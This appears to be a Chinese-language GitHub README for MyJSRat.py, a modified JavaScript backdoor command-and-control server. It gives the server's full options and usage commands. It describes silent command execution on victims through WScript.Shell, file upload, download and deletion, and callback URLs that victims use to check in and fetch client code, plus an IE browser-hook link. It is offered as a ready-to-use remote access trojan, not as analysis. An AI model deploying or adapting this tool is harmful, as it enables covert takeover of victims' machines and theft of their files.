 # MyJSRat.py
## 0x00 JSbackdoor
关于javascript backdoor 请查看：

[JavaScript Backdoor](http://drops.wooyun.org/tips/11764)

[JavaScript Phishing](http://drops.wooyun.org/tips/12386)

[JSRat.ps1](https://gist.github.com/subTee/f1603fa5c15d5f8825c0)

## 0x01 说明
研究JSbackdoor 之后想着写一个py版的，后来发现已经有小伙伴写过了，地址如下：[JSRat-Py](https://github.com/Hood3dRob1n/JSRat-Py)

测试使用的时候，为了更加方便，对上面的这个脚本进行了修改，添加了`-c` 参数可以实现在客户端连接之后自动执行命令。具体使用方式如下：
```
JSRat Server
By: Evi1cg

Usage: MyJSRat.py [options]

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output
```

-f 参数可获取内外网ip地址：

![Alt text](./1459259057997.png)

脚本修改分为两个模式，交互模式以及执行命令模式。

1. 交互模式命令如下：
```
 python MyJSRat.py -i 192.168.1.101 -p 8080
```
>-u 为可选参数，为回连url地址。

交互模式下可进行文件上传、下载、删除、命令执行等。

2. 执行命令模式命令如下：
```
python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"
```
>执行命令模式下，会在获得shell之后自动执行指定命令，使用了`new ActiveXObject("WScript.Shell").Run(command,0,true)`,执行无回显，无弹框。

交互界面如下：

![Alt text](./1459259883470.png)

命令发送：

![Alt text](./1459260010566.png)

## 0x02 URL 说明
* http://192.168.1.101:8080/connect 默认回连地址
* http://192.168.1.101:8080/wtf 访问此链接获取客户端执行代码
* http://192.168.1.101:8080/hook 浏览器hook链接，适用于某些版本的IE





